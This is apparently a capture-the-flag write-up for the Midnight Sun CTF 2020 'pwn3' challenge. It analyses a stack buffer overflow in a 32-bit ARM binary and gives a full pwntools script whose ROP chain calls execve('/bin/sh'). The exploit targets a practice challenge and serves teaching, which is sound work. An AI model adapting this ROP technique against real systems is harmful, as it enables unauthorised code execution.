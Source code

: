 ```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn3
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
pwn3: ELF 32-bit LSB executable, ARM, EABI5 version 1 (GNU/Linux), statically linked,
for GNU/Linux 3.2.0, BuildID[sha1]=46d0723fb9ff9add7b00860a2382f32656a04700, stripped

Arch:     arm-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x10000)
{% endhighlight %}

In this challenge we are dealing with 32bit statically linked arm binary. It contains simple buffer overflow vulnerability.

![code decompiled][decompiled]

Sending 512 bytes causes crash that overwrite program counter (pc) at offset 144. Since the binary is compiled with NX bit it is required to use ROP technique.

{% highlight python %}
payload = (
    b"A" * 140 +

    p32(0x00010170) + # : pop {r3, pc}
    p32(0x43434343) +
    p32(0x00036359) + #  (0x00036359): pop {r0, r1, r2, r6, r7, pc};
    p32(0x00049018) + #  /bin/sh
    p32(0x0) + # r1
    p32(0x0) + # r2
    p32(0x44444444) + # r6
    p32(0xb) + # r7 - execve
    p32(0x00010915) + # (0x00010915): svc #0; pop {r7, pc};
    p32(0x49494949)
)
{% endhighlight %}

We compose our payload with 3 gadgets.
1. Gadget responsible for adjusting stack - `pop {r3, pc}`
2. Gadget setting up registers to our values - `pop {r0, r1, r2, r6, r7, pc}`

r0 - arg1 - address of /bin/sh (can be found in the binary)
r1 - arg2 - 0x0
r2 - arg3 - 0x0
r6 - junk 
r7 - execve syscall number - 0xb

3. Gadget that executes syscall - `svc $0, pop r{7, pc}`

Sending payload to the target results in getting interactive shell.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

payload = (
    b"A" * 140 +

    p32(0x00010170) + # : pop {r3, pc}
    p32(0x43434343) +
    p32(0x00036359) + #  (0x00036359): pop {r0, r1, r2, r6, r7, pc};
    p32(0x00049018) + #  /bin/sh
    p32(0x0) + # r1
    p32(0x0) + # r2
    p32(0x44444444) + # r6
    p32(0xb) + # r7 - execve
    p32(0x00010915) + # (0x00010915): svc #0; pop {r7, pc};
    p32(0x49494949)
)
payload += b"B" * (511 - len(payload))
with open("input", "wb+") as f:
    f.write(payload)

io = process(["qemu-arm", "./pwn3"])
#io = process(["qemu-arm", "-g", "2222", "./pwn3"])
#io = remote("pwn3-01.play.midnightsunctf.se", 10003)

io.recvuntil("buffer: ")
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn3
[decompiled]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn3/decompiled.png

